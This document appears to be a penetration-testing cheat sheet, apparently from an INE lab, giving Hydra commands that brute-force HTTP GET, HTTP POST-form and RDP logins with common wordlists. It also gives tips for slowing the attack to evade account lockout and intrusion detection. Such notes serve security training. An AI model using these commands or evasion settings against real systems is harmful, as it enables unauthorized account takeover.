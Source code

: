 # Hydra Brute-Forcing

hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -s <target_port> http-get

hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -s <target_port> http-post-form 

hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /root/Desktop/wordlists/100-common-passwords.txt target.ine.local http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid username or password"

##### Secure Scan

hydra -l <user> -P /usr/share/wordlists/rockyou.txt rdp://<target_ip> -t 1 -W 3

-t 1 -> Sets the number of parallel tasks (connections) to 1. This makes the attack very slow and stealthier.
-W 3 -> Sets the wait time between login attempts for each thread to 3 seconds. This further slows
down the attack to avoid triggering account lockout policies or intrusion detection systems.

